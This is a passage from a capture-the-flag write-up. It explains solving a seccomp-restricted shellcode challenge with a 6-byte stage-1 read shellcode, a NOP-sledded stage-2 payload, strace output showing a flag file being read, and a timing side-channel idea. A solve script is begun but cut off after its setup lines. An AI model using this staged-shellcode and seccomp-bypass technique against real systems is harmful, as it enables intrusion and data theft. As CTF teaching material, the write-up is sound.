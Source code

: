 As one can see form a [x86 syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/), to read from stdin we need to set `RAX=0`, `RSI=0` and `RDX` to some value. Next we need to set the buffer pointer, `RDI` register, to point to the place in memory where the bytes that get read in should be placed.  

It is very hard to set all these registers up correctly with only 6 bytes of shellcode, but we can leverage the register data lying around at the time of execution.   

We can therefore use the following shellcode to read in more bytes from stdin:
```python
sc = f"""
//read(rdi=rip, rsi=0, rdx=1000) #rcx=RIP
push rdx
pop rsi
push rax
pop rdi
syscall
"""
```
Stage 2 will therefore be in the stdin buffer. By reading into the address of the `RIP` (instruction pointer), the current code is overwritten with the stage 2 payload. To ensure proper execution, a nopsled is included in the stage 2 payload to handle any byte alignment issues.  
For further exploration, here is a good medium article explaining multi-stage shellcodes: [Shellcoding 0x3: Dropping Multi-stage Payload](https://compilepeace.medium.com/shellcoding-0x3-dropping-multi-stage-payload-fdd635fcbf70).


When running the above script with `strace` we see it works:  
```
read(0, "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"..., 20148224) = 1238
open("./flag", O_RDONLY)                = 3
read(3, "SEE{REDACTED}", 1000)          = 13
write(1, "SEE{REDACTED}", 13)           = 1
[DEBUG] Received 0x27 bytes:
    b'+++ killed by SIGSYS (core dumped) +++\n'
+++ killed by SIGSYS (core dumped) +++
```
HOWEVER, the program uses [seccomp](https://man7.org/linux/man-pages/man2/seccomp.2.html) to limit available syscalls to only **OPEN** and **READ**:
```c
    assert(seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0) == 0);    
    assert(seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0) == 0);
```
Therefore, we need to find an alternative method to read the file without using the write syscall. After some research, we discovered a similar shellcode challenge called ["mute"](https://ctftime.org/writeup/6607) in the 2017 DEFCON quals. That challenge disallowed the use of the write syscall, and participants solved it by employing a timing side-channel attack.

The idea behind a timing attack is to glean information based on how long operations take to execute. Here, the basic idea of the attack is to guess each character of the flag, one at a time. If a guess is correct, the connection is kept open, otherwise, it is closed. 

Here's the script that successfully solves the challenge:
**SOLVE SCRIPT:**
```python
#!/usr/bin/python3
from pwn import *
from glob import glob 
import string

# Set context debug level
context.update(arch="amd64")
context.log_level = "error"

elf = ELF("./chall")
context.binary = elf

```